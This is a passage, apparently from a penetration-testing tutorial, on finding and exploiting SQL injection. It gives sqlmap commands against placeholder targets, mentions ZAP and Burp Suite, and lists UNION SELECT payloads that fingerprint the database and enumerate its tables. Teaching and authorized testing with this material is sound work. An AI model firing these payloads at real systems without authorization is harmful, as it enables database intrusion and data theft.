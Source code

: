 SQLmap is the most comprehensive open-source tool for detecting and exploiting SQL injection flaws.

Basic usage:
```bash
# Test a URL parameter
sqlmap -u "https://target.com/page.php?id=1" --dbs

# Test all parameters in a form
sqlmap -u "https://target.com/login.php" --forms --batch

# Test a specific parameter in POST request
sqlmap -u "https://target.com/api/data" --data="user=admin&action=view" -p user
```

SQLmap can detect various types of SQL injections across different database management systems and can automatically exploit them to extract data.

#### OWASP ZAP

OWASP ZAP (Zed Attack Proxy) includes SQL injection scanners as part of its active scanning capabilities. It's easier to use than SQLmap but might be less thorough for complex SQL injection scenarios.

#### Burp Suite

Burp Suite Professional includes an active scanner that can detect SQL injection vulnerabilities. The free version can be used with manual testing techniques by:
1. Capturing requests through the proxy
2. Sending them to Repeater/Intruder
3. Modifying parameters to test for SQL injection

## Exploitation Techniques

Once a SQL injection vulnerability is discovered, exploitation techniques vary based on the database system and the specifics of the vulnerability.

### 1. Information Gathering

The first step in exploitation is gathering information about the database:

#### Determining Database Type

```sql
' UNION SELECT @@version -- -       # Microsoft SQL Server
' UNION SELECT version() -- -       # PostgreSQL, MySQL
' UNION SELECT banner FROM v$version -- -  # Oracle
```

#### Enumerating Database Structure

For MySQL/PostgreSQL:
```sql
' UNION SELECT table_name,column_name FROM information_schema.columns -- -
```

For SQL Server:
```sql
' UNION SELECT table_name,column_name FROM information_schema.columns -- -
```
